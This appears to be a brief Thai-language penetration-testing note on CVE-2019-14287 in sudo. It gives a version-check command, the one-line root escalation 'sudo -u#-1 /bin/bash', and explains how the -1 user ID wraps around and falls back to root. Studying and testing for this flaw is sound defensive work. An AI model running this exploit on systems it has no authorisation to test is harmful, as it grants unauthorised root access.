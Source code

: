 Check and Test
-------------------------------

Check sudo version ( CVE-2019-14287 )
```
sudo -V | grep "Sudo ver" | grep "1\.[01234567]\.[0-9]\+\|1\.8\.1[0-9]\*\|1\.8\.2[01234567]"
```
ถ้าไม่ขึ้นอะไรแสดงว่าไม่อยู่ในช่วงช่วงเวอชั่นที่มีช่องโหว่

แต่ if version < 1.28
มีความเสี่ยงว่าจะมีช่องโหว่ทดสอบโดย
```
sudo -u#-1 /bin/bash
```

```
ช่องโหว่นี้เกิดจากการ handle ค่า uid ที่ส่งเข้ามาไม่ดี
เมื่อมีการส่งค่า -1 เข้ามา โดย Program เขียนด้วย C ชนิดตัวแปรที่รับเป็นชนิด uid_t (unsigned int) 
หมายความว่า ถ้าส่งค่าที่น้อยกว่า 0 เข้ามามันจะตีความเป็นค่าที่ไม่มีอยู่จริงของ user id
-1 ใน unsigned int จะได้ค่าเป็น 4294967295
4294967295 นี้ไม่มีแน่ๆในเลข user id
ดังนั้นเมื่อไม่เจอจึง fallback ให้สิทธิ์ root (uid 0 ) แทน
เราจึงทำการยกระดับสิทธิ์ได้โดยไม่ต้องใช้อย่างอื่นเลย
```
